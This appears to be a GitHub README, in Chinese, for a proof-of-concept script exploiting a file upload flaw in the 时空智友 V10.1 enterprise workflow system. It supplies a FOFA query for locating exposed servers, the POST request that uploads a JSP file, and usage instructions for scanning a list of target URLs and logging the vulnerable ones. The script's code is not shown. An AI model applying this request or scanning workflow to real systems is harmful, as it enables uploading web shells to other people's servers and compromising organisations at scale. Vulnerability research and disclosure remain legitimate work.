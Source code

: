 时空智友系统文件上传漏洞poc.py

时空智友企业流程化管控系统存在文件上传漏洞

FOFA语句：app=“时空智友V10.1”

POC:POST /formservice?service=attachment.write&isattach=false&filename=a.jsp HTTP/1.1

py脚本
使用：python3 poc.py -f url.txt(存放探测目标url)
存在漏洞的目标url放入result.txt文件
![image](https://github.com/1daomeidan/SKZY-upload/assets/143391153/b6a0f6a4-1e12-4f31-9640-3b7a565b06b5)
![image](https://github.com/1daomeidan/SKZY-upload/assets/143391153/ad6c9696-9cb4-4b94-915f-a4dd06d76af0)
